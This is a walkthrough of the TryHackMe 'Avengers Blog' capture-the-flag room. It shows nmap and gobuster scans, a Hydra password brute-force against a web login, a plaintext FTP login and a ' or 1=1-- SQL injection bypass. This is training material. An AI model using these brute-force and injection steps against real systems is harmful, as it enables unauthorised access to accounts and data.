 # Avengers Blog

**Room Link:** [https://tryhackme.com/room/avengers](https://tryhackme.com/room/avengers)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -l groot -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/auth/:username=^USER^&password=^PASS^:F=Incorrect username" -V

```



## Cookies

Get the flag with developer console by checking the cookie.

<figure><img src="../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>



## HTTP Headers

<figure><img src="../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

## Enumeration and FTP

**Kali**

```
ftp $VICTIM
Username: groot
Password: iamgroot
```

<figure><img src="../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

## GoBuster

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





## SQL Injection

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

```
Username: ' or 1=1--
Password: ' or 1=1--
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>



## Remote Code Execution and Linux

<figure><img src="../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>











